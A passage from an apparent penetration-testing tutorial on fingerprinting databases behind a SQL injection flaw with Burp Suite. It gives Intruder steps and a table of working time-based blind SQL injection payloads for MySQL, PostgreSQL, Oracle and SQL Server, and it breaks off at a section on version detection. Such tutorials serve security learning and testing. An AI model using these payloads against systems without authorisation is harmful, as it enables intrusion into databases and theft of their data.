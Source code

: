 
**Burp Tip:** Use **"Match and Replace"** (`Proxy > Options`) to highlight errors automatically.  

---

## **2. Using Time-Based Payloads (Active Fingerprinting)**  
**Burp Steps:**  
1. **Send request to Intruder** (`Ctrl+I`).  
2. **Use Sniper mode**, target the vulnerable parameter.  
3. **Test delay-based payloads:**  

<table>
   <thead>
      <tr>
         <th>Database</th>
         <th>Payload</th>
         <th>Expected Delay</th>
      </tr>
   </thead>
   <tbody>
      <tr>
         <td><strong>MySQL</strong></td>
         <td><code>1' AND SLEEP(5)-- -</code></td>
         <td>~5 seconds</td>
      </tr>
      <tr>
         <td><strong>PostgreSQL</strong></td>
         <td><code>1' AND pg_sleep(5)-- -</code></td>
         <td>~5 seconds</td>
      </tr>
      <tr>
         <td><strong>Oracle</strong></td>
         <td><code>1' AND (SELECT COUNT(*) FROM ALL_USERS WHERE username='a'||DBMS_PIPE.RECEIVE_MESSAGE('a',5))='a'</code></td>
         <td>~5 seconds</td>
      </tr>
      <tr>
         <td><strong>SQL Server</strong></td>
         <td><code>1' WAITFOR DELAY '0:0:5'-- -</code></td>
         <td>~5 seconds</td>
      </tr>
   </tbody>
</table>

**Burp Tip:** Use **"Response Times"** in Intruder to detect delays.  

---

## **3. Using Version Detection Queries**  
**Burp Steps:**  
1. **Craft UNION-based or stacked queries** in Repeater.  
2. **Extract version info:**  
